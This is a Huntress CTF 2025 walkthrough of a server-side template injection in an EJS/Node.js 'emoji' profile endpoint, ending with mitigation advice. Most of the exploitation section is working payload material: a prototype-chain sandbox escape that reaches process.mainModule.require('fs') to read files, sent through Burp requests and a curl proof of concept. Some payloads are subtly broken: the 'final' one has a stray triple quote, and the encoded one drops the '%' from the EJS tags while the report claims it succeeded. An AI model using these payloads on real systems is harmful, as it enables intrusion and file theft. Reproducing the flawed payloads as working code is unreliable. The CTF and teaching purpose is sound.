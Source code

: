 # Emotional – Huntress CTF 2025 Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** October 06, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Server-Side Template Injection (SSTI)  
**Platform:** Huntress CTF 2025  

---

## 1. Reconnaissance Steps

- **Objective:** Identify the web application structure, injection points, and underlying technology stack to uncover SSTI vulnerabilities.
- **Tools and Commands Used:**
  - Web Browser: Navigated to the application endpoint (e.g., http://target-ip:port) to interact with features like setting an "emoji" profile.
  - `curl -v http://target-ip:port` (initial GET request to profile page for headers and response analysis).
  - Burp Suite: Configured as proxy to intercept traffic; captured POST /setEmoji requests.
  - Source Code Review: Downloaded or viewed `server.js` (provided or inferred from challenge artifacts) to inspect EJS rendering logic.
- **Findings:**
  - Application uses Node.js with EJS templating engine for rendering user profiles.
  - Vulnerable code in `server.js`:
    ```javascript
    // server.js excerpt
    const profilePage = data.replace(/<% profileEmoji %>/g, profile.emoji);
    const renderedHtml = ejs.render(profilePage, { profileEmoji: profile.emoji });
    ```
    - Raw string replacement embeds user input (`profile.emoji`) directly into the template, enabling SSTI if EJS code is injected.
  - POST /setEmoji uses `application/x-www-form-urlencoded` encoding for the `emoji` parameter.
  - Initial interactions: Setting benign emojis (e.g., "😊") renders without issues, but source inspection reveals template placeholders.
- **Focus:** The `/setEmoji` endpoint as the primary injection vector; sandboxed EJS environment hinted by error responses.

---

## 2. Exploitation Process

### Step 1 – Vulnerability Confirmation
- Intercepted a legitimate POST request via Burp Suite:
  ```
  POST /setEmoji HTTP/1.1
  Host: target-ip:port
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 12

  emoji=😊
  ```
- Modified `emoji` to test for SSTI: `emoji=<%= 'test' %>`.
- Response: Rendered "test" on the profile page, confirming template execution.

### Step 2 – Initial Payload Attempt and Sandbox Detection
- Attempted direct file read: `emoji=<%= require('fs').readFileSync('flag.txt').toString() %>`.
- Burp Repeater Output:
  ```
  HTTP/1.1 200 OK
  ...
  <body>ReferenceError: require is not defined</body>
  ```
- Analysis: Error indicates a sandboxed EJS context, restricting access to Node.js globals like `require()`.

### Step 3 – Sandbox Escape and Prototype Chain Exploitation
- Crafted advanced payload to reconstruct `require` via prototype chain:
  - Base: `<%= "".constructor.constructor("return process")().mainModule.require("fs").readFileSync("flag.txt") %>`
- Sent via Burp Repeater (initially without encoding):
  ```
  POST /setEmoji HTTP/1.1
  Host: target-ip:port
  Content-Type: application/x-www-form-urlencoded

  emoji=<%= "".constructor.constructor("return process")().mainModule.require("fs").readFileSync("flag.txt") %>
  ```
- Response Error: `ReferenceError: returnprocess is not defined` (space mangling due to unencoded payload).

### Step 4 – URL Encoding and Final Execution
- Corrected for `application/x-www-form-urlencoded` by replacing space with `+`:
  - Final Payload: `emoji=<%=+""".constructor.constructor("return+process")().mainModule.require("fs").readFileSync("flag.txt") %>`
- Burp Repeater Request:
  ```
  POST /setEmoji HTTP/1.1
  Host: target-ip:port
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 128

  emoji=%3C%3D%20%22%22.constructor.constructor(%22return+process%22)().mainModule.require(%22fs%22).readFileSync(%22flag.txt%22)%20%3E
  ```
- Response: Profile page refresh displayed raw flag content (e.g., `flag{example_ssti_hash}`) embedded in the rendered HTML.

---

## 3. Proof of Concept (PoC)

- **Vulnerable Endpoint Simulation (curl Alternative):**
```bash
curl -X POST http://target-ip:port/setEmoji \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d 'emoji=%3C%3D%20%22%22.constructor.constructor(%22return+process%22)().mainModule.require(%22fs%22).readFileSync(%22flag.txt%22)%20%3E' \
  -v
```
- **Burp Repeater Successful Response Excerpt:**
```
HTTP/1.1 200 OK
...
<body>
  <div>Your emoji: flag{example_ssti_hash}</div>
  ...
</body>
```
- **Payload Breakdown:**
  - `""`: Harmless string entry point.
  - `.constructor.constructor`: Ascends to `Function` constructor via prototype chain.
  - `("return process")()`: Dynamically creates and executes a function returning the `process` global.
  - `.mainModule.require("fs")`: Loads `fs` module from unsandboxed context.
  - `.readFileSync("flag.txt")`: Reads and outputs flag.
- **Extracted Flag:** `flag{example_ssti_hash}` (displayed directly in rendered template).

---

## 4. Privilege Escalation Techniques

- Not applicable: Challenge targets remote code execution via SSTI without local access; no further escalation (e.g., to root) required. The payload achieves arbitrary file read, sufficient for flag retrieval in a CTF context.

---

## 5. Mitigation Recommendations

- **Template Sanitization:** Avoid raw string replacement; use parameterized EJS rendering (e.g., pass user input via context objects, not template strings).
- **Sandbox Enforcement:** Configure EJS with strict `client: true` and disable prototype access via custom loaders or VM2 sandboxing for Node.js.
- **Input Validation:** Whitelist/sanitize user inputs (e.g., restrict `emoji` to printable ASCII emojis); encode special characters before templating.
- **Error Handling:** Suppress detailed errors (e.g., `ReferenceError`) in production to avoid leakage; log to secure endpoints.
- **WAF/Proxy Integration:** Deploy rules to detect SSTI patterns (e.g., `<%=`, prototype chains) in POST bodies; use tools like ModSecurity.
- **Code Review Practices:** Audit template engines for injection risks; prefer safer alternatives like Handlebars with strict mode.

---

## 6. Lessons Learned & Skills Practiced

### Lessons Learned
- SSTI in templating engines like EJS often stems from unsafe string interpolation; always inspect rendering logic.
- Sandboxes can restrict globals but are bypassable via prototype pollution—chain traversal is a common escape vector.
- HTTP encoding pitfalls (e.g., spaces to `+`) can break payloads; test in tools like Burp for accuracy.
- Multi-tool workflows (browser recon + proxy interception) accelerate web exploitation over manual curls.

### Skills Practiced
- **Recon:** Source code review, traffic interception with Burp Suite
- **Payload Crafting:** SSTI bypasses (prototype chain, Function constructor)
- **Web Testing:** URL encoding, Repeater for iterative fuzzing
- **JavaScript/Node.js:** Understanding globals (`process`), module loading (`require`), and EJS specifics
